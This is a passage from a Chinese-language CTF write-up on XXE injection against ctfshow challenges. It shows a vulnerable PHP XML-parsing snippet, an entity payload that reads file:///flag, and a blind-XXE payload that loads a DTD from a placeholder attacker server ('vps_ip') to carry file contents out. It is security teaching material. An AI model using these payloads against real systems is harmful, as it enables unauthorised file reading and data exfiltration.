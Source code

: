 **payload**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag" > 
]>
<creds>
    <ctfshow>&xxe;</ctfshow></creds>
```

通过Bp发包： POST请求

![image-20231207232358694](https://p.ipic.vip/38ks2j.png)



### 二、无回显的情况

> 上一个案例我们实践了文件读取的一般场景，但是勿回显的情况下需要利用一些技巧将读取的文件“带出”

![](https://p.ipic.vip/9utqnt.png)

题目

```php
<?php
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
  	// 加载接收到的XML数据。
    // LIBXML_NOENT：替换XML实体为它们所代表的值。
    // LIBXML_DTDLOAD：加载外部子集DTD。
    // 这个配置的组合使得XML解析器能够处理外部实体，增加XXE攻击的风险。
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
```

**payload准备**

> 我们可以看到源码没有echo了，那我们就需要把数据 ‘带出’
>
> Payload可以分为两部分，一部分是XML，他只需要去加载我们远程的DTD文件，然后真正的获取文件的payload都写在DTD文件中

Bp中请求body为xml部分 （vps_ip为你存放DTD文件的服务器IP)

```
<!DOCTYPE  test[
<!ENTITY % remote SYSTEM "http://vps_ip:8000/test.dtd">
%remote;
]>
```

![image-20231208000738701](https://p.ipic.vip/ymu8ul.png)

准备DTD文件在你的远程服务器

